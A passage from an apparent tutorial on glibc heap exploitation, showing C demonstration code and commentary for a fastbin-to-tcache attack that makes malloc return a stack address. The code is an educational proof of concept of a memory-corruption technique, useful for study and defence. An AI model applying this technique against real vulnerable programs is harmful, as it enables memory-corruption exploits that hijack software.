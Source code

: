 ```c

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  printf(
    "\n"
    "The next allocation triggers the stack to be overwritten. The tcache\n"
    "is empty, but the fastbin isn't, so the next allocation comes from the\n"
    "fastbin. Also, 7 chunks from the fastbin are used to refill the tcache.\n"
    "Those 7 chunks are copied in reverse order into the tcache, so the stack\n"
    "address that we are targeting ends up being the first chunk in the tcache.\n"
    "It contains a pointer to the next chunk in the list, which is why a heap\n"
    "pointer is written to the stack.\n"
    "\n"
    "Earlier we said that the attack will also work if we free fewer than 6\n"
    "extra pointers to the fastbin, but only if the value on the stack is zero.\n"
    "That's because the value on the stack is treated as a next pointer in the\n"
    "linked list and it will trigger a crash if it isn't a valid pointer or null.\n"
    "\n"
    "The contents of our array on the stack now look like this:\n\n"
  );

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```

The size of this script is pretty large compared to the others, so I will be explaining the script
in little chunks of the source so we dont lose track on what we are actually talking about. Lets review
the first part of this script

```c
const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);

  printf(
    "\n"
    "This attack is intended to have a similar effect to the unsorted_bin_attack,\n"
    "except it works with a small allocation size (allocsize <= 0x78).\n"
    "The goal is to set things up so that a call to malloc(allocsize) will write\n"
    "a large unsigned value to the stack.\n\n"
  );
```
